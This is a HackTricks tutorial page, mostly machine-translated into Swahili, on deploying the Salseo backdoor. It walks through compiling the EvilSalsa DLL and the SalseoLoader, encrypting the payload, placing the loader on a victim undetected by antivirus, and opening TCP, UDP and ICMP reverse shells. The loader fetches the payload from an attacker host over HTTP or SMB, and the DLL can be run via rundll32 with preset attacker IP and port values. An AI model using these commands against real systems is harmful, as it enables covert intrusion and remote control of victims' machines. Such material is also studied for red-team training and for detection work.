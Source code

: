 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compiling the binaries

Pakua msimbo wa chanzo kutoka github na uunde **EvilSalsa** na **SalseoLoader**. Utahitaji **Visual Studio** iliyosakinishwa ili kuunda msimbo huo.

Unda miradi hiyo kwa ajili ya usanifu wa sanduku la windows ambapo unakusudia kuyatumia (Ikiwa Windows inasaidia x64 uunde kwa usanifu huo).

Unaweza **kuchagua usanifu** ndani ya Visual Studio katika **"Build" Tab** ya **kushoto katika "Platform Target".**

(\*\*Ikiwa huwezi kupata chaguo hizi bonyeza kwenye **"Project Tab"** kisha kwenye **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (132).png>)

Kisha, jenga miradi yote miwili (Build -> Build Solution) (Ndani ya log zitajitokeza njia ya executable):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Prepare the Backdoor

Kwanza kabisa, utahitaji kuandika **EvilSalsa.dll.** Ili kufanya hivyo, unaweza kutumia script ya python **encrypterassembly.py** au unaweza kuunda mradi **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, sasa una kila kitu unachohitaji kutekeleza mambo yote ya Salseo: **encoded EvilDalsa.dll** na **binary ya SalseoLoader.**

**Pakia binary ya SalseoLoader.exe kwenye mashine. Hazipaswi kugundulika na AV yoyote...**

## **Tekeleza backdoor**

### **Kupata TCP reverse shell (kupakua dll iliyosimbwa kupitia HTTP)**

Kumbuka kuanzisha nc kama msikilizaji wa reverse shell na seva ya HTTP kutoa evilsalsa iliyosimbwa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Kupata shell ya UDP reverse (kupakua dll iliyokodishwa kupitia SMB)**

Kumbuka kuanzisha nc kama msikilizaji wa shell ya reverse, na seva ya SMB kutoa evilsalsa iliyokodishwa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Kupata ICMP reverse shell (dll iliyokwishahifadhiwa ndani ya mwathiriwa)**

**Wakati huu unahitaji chombo maalum kwenye mteja kupokea reverse shell. Pakua:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Zima Majibu ya ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Tekeleza mteja:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Ndani ya mwathiriwa, hebu tuendeshe kitu cha salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Kuunda SalseoLoader kama DLL inayosafirisha kazi kuu

Fungua mradi wa SalseoLoader ukitumia Visual Studio.

### Ongeza kabla ya kazi kuu: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Sakinisha DllExport kwa mradi huu

#### **Zana** --> **Meneja wa Kifurushi cha NuGet** --> **Simamisha Kifurushi cha NuGet kwa Suluhisho...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Tafuta kifurushi cha DllExport (ukitumia kichupo cha Browse), na bonyeza Sakinisha (na kubali popup)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Katika folda yako ya mradi, faili zifuatazo zimeonekana: **DllExport.bat** na **DllExport\_Configure.bat**

### **U**ondoe DllExport

Bonyeza **Ondoa** (ndiyo, ni ajabu lakini ni muhimu)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Toka Visual Studio na tekeleza DllExport\_configure**

Tu **toka** Visual Studio

Kisha, nenda kwenye **folda ya SalseoLoader** yako na **tekeleza DllExport\_Configure.bat**

Chagua **x64** (ikiwa unakusudia kuitumia ndani ya sanduku la x64, hiyo ilikuwa hali yangu), chagua **System.Runtime.InteropServices** (ndani ya **Namespace kwa DllExport**) na bonyeza **Tumia**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Fungua mradi tena na visual Studio**

**\[DllExport]** haitapaswa kuwa na alama ya kosa tena

![](<../.gitbook/assets/image (8) (1).png>)

### Jenga suluhisho

Chagua **Aina ya Matokeo = Maktaba ya Darasa** (Mradi --> SalseoLoader Mali --> Programu --> Aina ya matokeo = Maktaba ya Darasa)

![](<../.gitbook/assets/image (10) (1).png>)

Chagua **x64** **jukwaa** (Mradi --> SalseoLoader Mali --> Jenga --> Lengo la jukwaa = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Ili **kujenga** suluhisho: Jenga --> Jenga Suluhisho (Ndani ya console ya Matokeo, njia ya DLL mpya itaonekana)

### Jaribu Dll iliyozalishwa

Nakili na ubandike Dll mahali unapotaka kuijaribu.

Tekeleza:
```
rundll32.exe SalseoLoader.dll,main
```
Ikiwa hakuna kosa linalojitokeza, huenda una DLL inayofanya kazi!!

## Pata shell ukitumia DLL

Usisahau kutumia **HTTP** **server** na kuweka **nc** **listener**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
